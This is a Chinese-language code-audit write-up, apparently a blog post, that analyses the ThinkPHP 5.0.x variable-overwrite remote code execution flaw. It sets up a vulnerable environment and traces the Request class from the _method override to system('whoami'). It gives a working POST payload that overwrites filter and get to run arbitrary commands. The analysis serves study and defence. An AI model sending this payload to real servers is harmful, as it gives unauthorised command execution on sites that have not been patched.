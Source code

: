 # [代码审计]ThinkPHP 5.0.x 变量覆盖导致的RCE分析




# 前言
漏洞存在版本，分为两大版本：

- ThinkPHP 5.0-5.0.24

- ThinkPHP 5.1.0-5.1.30

# 环境搭建

```
composer create-project topthink/think=5.0.5 thinkphp5.0.5  --prefer-dist
```
修改composer.json

```
"require": {
    "php": ">=5.4.0",
    "topthink/framework": "5.0.5"
},
```
执行`composer update`

# 漏洞分析
payload:

```
_method=__construct&method=get&filter[]=system&get[]=whoami
```

在thinkphp/library/think/Request.php中的method方法里面

```php
public function method($method = false)
    {
        if (true === $method) {
            // 获取原始请求类型
            return IS_CLI ? 'GET' : (isset($this->server['REQUEST_METHOD']) ? $this->server['REQUEST_METHOD'] : $_SERVER['REQUEST_METHOD']);
        } elseif (!$this->method) {
            if (isset($_POST[Config::get('var_method')])) {
                $this->method = strtoupper($_POST[Config::get('var_method')]);
                $this->{$this->method}($_POST);
            } elseif (isset($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE'])) {
                $this->method = strtoupper($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE']);
            } else {
                $this->method = IS_CLI ? 'GET' : (isset($this->server['REQUEST_METHOD']) ? $this->server['REQUEST_METHOD'] : $_SERVER['REQUEST_METHOD']);
            }
        }
        return $this->method;
    }
```
看这里的判断，跟进一下config的get方法
```php
if (isset($_POST[Config::get('var_method')])) {
                $this->method = strtoupper($_POST[Config::get('var_method')]);
                $this->{$this->method}($_POST);
```
他执行了`Config::get('var_method')`，把参数var_method给传进去
```php
    public static function get($name = null, $range = '')
    {
        $range = $range ?: self::$range;
        // 无参数时获取所有
        if (empty($name) && isset(self::$config[$range])) {
            return self::$config[$range];
        }

        if (!strpos($name, '.')) {
            $name = strtolower($name);
            return isset(self::$config[$range][$name]) ? self::$config[$range][$name] : null;
        } else {
            // 二维数组设置和获取支持
            $name    = explode('.', $name);
            $name[0] = strtolower($name[0]);
            return isset(self::$config[$range][$name[0]][$name[1]]) ? self::$config[$range][$name[0]][$name[1]] : null;
        }
    }
```
返回了一个`$config[$range][$name]`，即`config[_sys_][var_method]`，他的值就是`_method`
![在这里插入图片描述](https://img-blog.csdnimg.cn/8f4059cb60e245e7a99513f53fb5c576.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)
所以当我们传入`_method=xxx`的时候，就可以控制这个`$this->{$this->method}($_POST);`，从而去执行想要执行的函数

```php
 if (isset($_POST[Config::get('var_method')])) {
     $this->method = strtoupper($_POST[Config::get('var_method')]);
     $this->{$this->method}($_POST);
```

再看这个类的__construct方法

![在这里插入图片描述](https://img-blog.csdnimg.cn/f139527bbbf74bf9ad8a28b30d0479c9.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_19,color_FFFFFF,t_70,g_se,x_16)
这个循环会造成一个变量覆盖，而且还是循环的覆盖，可以覆盖很多的值
<hr> 

清楚了漏洞存在的根本原因，接下来我们直接从入口开始分析，public/index.php
![在这里插入图片描述](https://img-blog.csdnimg.cn/242ceb2fd7b54e788aa7e71e3926a29a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_17,color_FFFFFF,t_70,g_se,x_16)
再跟进start.php
![在这里插入图片描述](https://img-blog.csdnimg.cn/ed9336a4670942f0b0ab414e51bfa334.png)
调用了一个App的run方法
再跟进这个方法，这里检测路由会调用routeCheck方法

```php
// 获取应用调度信息
$dispatch = self::$dispatch;
if (empty($dispatch)) {
    // 进行URL路由检测
    $dispatch = self::routeCheck($request, $config);
}
// 记录当前调度信息
$request->dispatch($dispatch);
```
routeCheck里面调用了Route的`check方法`
![在这里插入图片描述](https://img-blog.csdnimg.cn/006943199cc44f00afade0b6a5c5a6a1.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)
再跟进看到这里调用到了request的method方法
![在这里插入图片描述](https://img-blog.csdnimg.cn/36673e2bb2074d0591a060b6fd42a6d7.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)
之后就是接上前面分析的request类，传参数`_method=__construct`进入request类的`__construct方法`
![在这里插入图片描述](https://img-blog.csdnimg.cn/d0a06b69e7554f53aac1fe9f3161df86.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)
开始变量的覆盖

```
filter[]=system
get[]=whoami
method=GET
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/a9440414d90a4bcbb12fdf364041ff05.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)
再回到`check方法`，返回`return $this->method;`，由于我们传的参数有一个是method=get，所以变量覆盖后，返回的就是get
如果不做这一步（method=get）返回的就是一些乱七八糟，后续中就可能会出错
![在这里插入图片描述](https://img-blog.csdnimg.cn/23151ac0484e455781811082d03ccc65.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)


再走出去回到app类的`run()方法`
判断debug，进入分支内，可以看到有一个`$request->param()`
![在这里插入图片描述](https://img-blog.csdnimg.cn/4c79565f5d0d4e8c82dc911610eba80d.png)
这里vars会被赋值成我们post的数据
![在这里插入图片描述](https://img-blog.csdnimg.cn/14e2a90fe2814767aebd7aa80d5c055a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

这里会执行一个array_merge，合并一下url和post中的参数
![在这里插入图片描述](https://img-blog.csdnimg.cn/1876d37f7e0b4b069591b1b0d28506e0.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)
先进去get方法，因为我们已经通过变量覆盖为get赋值了，所以不会进入判断条件
再进入input方法，第一个参数传的是`$this->get`，这个参数是被我们变量覆盖成whoami的
![在这里插入图片描述](https://img-blog.csdnimg.cn/8082b1ddc5294a618248e97a126f99f4.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)
进去后直接就返回了whoami
![在这里插入图片描述](https://img-blog.csdnimg.cn/72a5f6654e934856a6f95682bcf7a720.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

出来后param变成了这样，param[0]=whoami
![在这里插入图片描述](https://img-blog.csdnimg.cn/c3022f6130be4b3d96afd6277b31ff63.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)
再走到input方法，把param传进去，形参是data
![在这里插入图片描述](https://img-blog.csdnimg.cn/b0e94762fc0b4ad78f348d35d26151ca.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)
这里再进入filterValue方法，参数继续传下去，data和filter
![在这里插入图片描述](https://img-blog.csdnimg.cn/4876b25c749247e7b8c11ebc0297ce7e.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)
到这里value就是data，即whoami
filter就是filters遍历出来的，之前遍历覆盖成了system
这样就成功的执行了system("whoami")
![在这里插入图片描述](https://img-blog.csdnimg.cn/87562572859b45debeb39012ca1d9569.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)
# 总结
不得不佩服大佬的能力，这个rce分析下来个人感觉还是很复杂的，每一个点都被巧妙的利用起来了，太强了太强了orz

画一张图总结一下这里的利用链吧

![请添加图片描述](https://img-blog.csdnimg.cn/50c1e307d31f4bdd99b61fa3ca08dee2.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

